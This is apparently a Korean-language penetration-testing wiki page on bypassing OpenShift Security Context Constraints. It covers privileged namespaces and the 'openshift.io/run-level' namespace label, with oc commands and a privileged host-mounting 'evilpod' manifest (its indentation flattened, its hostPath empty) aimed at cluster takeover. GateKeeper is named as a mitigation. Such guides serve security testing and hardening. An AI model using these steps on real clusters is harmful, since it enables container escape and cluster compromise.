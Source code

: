 # Openshift - SCC 우회

**이 페이지의 원 저자는** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## 특권 네임스페이스

기본적으로 SCC는 다음 프로젝트에 적용되지 않습니다:

* **default**
* **kube-system**
* **kube-public**
* **openshift-node**
* **openshift-infra**
* **openshift**

이러한 네임스페이스 중 하나에 파드를 배포하면 SCC가 적용되지 않아 특권이 있는 파드를 배포하거나 호스트 파일 시스템을 마운트할 수 있습니다.

## 네임스페이스 레이블

RedHat 문서에 따르면 파드에서 SCC 적용을 비활성화하는 방법이 있습니다. 다음 권한 중 하나 이상이 있어야 합니다:

* 네임스페이스 생성 및 해당 네임스페이스에 파드 생성
* 네임스페이스 편집 및 해당 네임스페이스에 파드 생성
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
특정 레이블 `openshift.io/run-level`은 사용자가 응용 프로그램의 SCC를 우회할 수 있도록 합니다. RedHat 문서에 따르면, 이 레이블을 사용하면 해당 네임스페이스 내의 모든 팟에 대해 SCC가 적용되지 않으므로 제한 사항이 제거됩니다.

<figure><img src="../../../.gitbook/assets/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## 레이블 추가

네임스페이스에 레이블을 추가하려면:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
다음은 YAML 파일을 통해 레이블이 지정된 네임스페이스를 생성하는 방법입니다:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
지금, 네임스페이스에 생성된 모든 새로운 파드는 어떤 SCC도 가지지 않아야 합니다

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

SCC가 없으면 파드 정의에 제한이 없습니다. 이는 악의적인 파드가 호스트 시스템으로 쉽게 이탈될 수 있다는 것을 의미합니다.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
이제 호스트 시스템에 액세스 권한을 승격하여 전체 클러스터를 인수하고 'cluster-admin' 권한을 얻는 것이 더 쉬워졌습니다. 다음 페이지에서 **Node-Post Exploitation** 부분을 찾아보세요 :

{% content-ref url="../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md" %}
[attacking-kubernetes-from-inside-a-pod.md](../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md)
{% endcontent-ref %}

### 사용자 정의 레이블

또한 대상 설정에 따라 이전 공격 시나리오와 동일한 방식으로 일부 사용자 정의 레이블 / 주석이 사용될 수 있습니다. 레이블이 특정 리소스에 대한 권한을 부여하거나 제한하거나 제한하지 않도록 사용될 수 있습니다.

일부 리소스를 읽을 수 있다면 사용자 정의 레이블을 찾아보세요. 여기에 흥미로운 리소스 목록이 있습니다 :

* Pod
* Deployment
* Namespace
* Service
* Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## 모든 특권 있는 네임스페이스 나열
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## 고급 exploit

OpenShift에서는 이전에 시연한 대로 `openshift.io/run-level` 레이블이 있는 네임스페이스에 pod를 배포할 수 있는 권한이 있다면 클러스터를 쉽게 탈취할 수 있습니다. 클러스터 설정 관점에서 이 기능은 OpenShift의 설계에 내재되어 있기 때문에 **비활성화할 수 없습니다**.

그러나 **Open Policy Agent GateKeeper**와 같은 완화 조치를 통해 사용자가 이 레이블을 설정하는 것을 방지할 수 있습니다.

GateKeeper의 규칙을 우회하고 이 레이블을 설정하여 클러스터 탈취를 실행하려면 **공격자는 대안적인 방법을 식별해야 합니다.**

## 참고 자료

* [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
* [https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html](https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html)
* [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
